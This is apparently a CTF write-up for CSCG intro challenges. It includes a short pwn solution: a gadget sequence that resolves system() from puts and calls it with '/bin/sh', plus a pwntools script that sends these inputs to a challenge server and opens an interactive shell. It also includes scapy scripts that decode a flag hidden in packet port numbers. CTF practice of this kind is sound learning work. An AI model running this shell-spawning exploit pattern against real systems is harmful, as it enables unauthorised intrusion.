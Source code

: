 ## Intro to Pwn 3

```
    7,  # rax = addr_of_puts_addr
    4,  # rax = addr_of_puts
    12, # rcx = addr_of_puts 
    8,  # rdx = bin_sh_offset
    10, # rdx = /bin/sh-addr [addr_puts + offset]

    12, # rcx = addr_of_puts [rax]
    6,  # mov system_puts offset into rax
    14, # rcx = system_addr [rax + rcx]


    11, # rdi = /bin/sh-addr
    13, # rax = system_addr [mov rax,rcx]
    16, # call rax

```

```python
import pwn

r = pwn.remote("7effb0bc550628905e8f1033-intro-pwn-3.challenge.master.cscg.live", 31337, ssl=True)

rop = map(lambda x: str(x), [14, 6, 3, 11, 5, 13, 6, 3, 7, 9, 10, 12, 15, -1])

for rg in rop:
    r.recvuntil(": ")
    r.sendline(rg)

r.interactive()
```
# Forensic
## Intro to Forensics 1
kita bisa masuk ke tcp stream di wireshark untuk menemukan flagnya
## Intro to Forensics 2
- look into port
- use rizin (radare2)
```python
from scapy.all import *

for packet in PcapReader('intro-forensics-2.pcapng'):
    if IP in packet and packet[IP].src == '192.168.26.53' and TCP in packet and bytes(packet[TCP].payload).startswith(b'|<|'):
        print(packet[TCP].dport.to_bytes(2, byteorder='big').decode(), end='')
```

```python
from scapy.all import *

pcap_flow = rdpcap('intro-forensics-2.pcapng')
sessions = pcap_flow.sessions()
solution = []
for session in sessions:
    for packet in sessions[session]:
        if not(IP in packet and packet[IP].src == '192.168.26.53' and TCP in packet): continue
        port = packet[TCP].dport
        if port == 80 or port == 443 or not packet[TCP].payload: continue
        print(port.to_bytes(2, byteorder='big').decode(), end='')
print('')
```